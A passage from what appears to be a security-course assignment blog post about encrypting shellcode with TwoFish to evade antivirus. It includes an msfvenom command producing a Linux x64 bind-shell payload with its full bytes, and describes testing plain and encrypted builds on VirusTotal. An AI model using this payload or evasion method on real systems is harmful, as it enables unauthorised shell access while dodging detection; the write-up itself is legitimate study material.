 <img src="https://galminyana.github.io/img/A07_TwoFish_Decrypter_Exec.png" width="75%" height="75%">

#### All OK
As can be seen, the code worked as expected. The shellcode been crypted, then decrypted and executed and it spawned us a shell. 

### VirusTotal: Let's check efectivity?
---
Came to my mind to test how efective the Crypt would be against detections systems (AV, IPS...). For that, [VirusTotal](https://www.virustotal.com/) is going to be used to check how much a `msfvenom` shellcode can be ofuscated.

First, a `shell_bind_tcp` payload is created with `msfvenom`:

```bash
SLAE64> msfvenom -p linux/x64/shell_bind_tcp RHOST=192.168.1.10 -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 86 bytes
Final size of c file: 386 bytes
unsigned char buf[] = 
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x52"
"\xc7\x04\x24\x02\x00\x11\x5c\x48\x89\xe6\x6a\x10\x5a\x6a\x31"
"\x58\x0f\x05\x6a\x32\x58\x0f\x05\x48\x31\xf6\x6a\x2b\x58\x0f"
"\x05\x48\x97\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75"
"\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00"
"\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";
SLAE64> 
```

<img src="https://galminyana.github.io/img/A07_Demo01.png" width="75%" height="75%">

#### Checking VirusTotal with `shellcode.c`
This shellcode is placed in the `shellcode.c` template. 
1. Code is compiled and the executable uploaded to VirusTotal:

<img src="https://galminyana.github.io/img/A07_VT_shellcode01.png" width="45%" height="45%">

2. VirusTotal analyzes it and the shellcode been detected by a total of 5 engines:

<img src="https://galminyana.github.io/img/A07_VT_shellcode01_detected.png" width="75%" height="75%">

#### Checking VirusTotal with the `TwoFish_Decrypter.c`
To see if the encryption used is effective, the same is doing using the Crypt Schema used.
1. The shellcode is placed in the [TwoFish_Crypter.c](https://github.com/galminyana/SLAE64/blob/main/Assignment07/TwoFish_Crypter.c) file. Compiled and executed:

<img src="https://galminyana.github.io/img/A07_VT_shellcode02.png" width="75%" height="75%">

2. The encrypted shellcode, IV and password are placed in the [TwoFish_Decrypter.c](https://github.com/galminyana/SLAE64/blob/main/Assignment07/TwoFish_Decrypter.c) and compiled
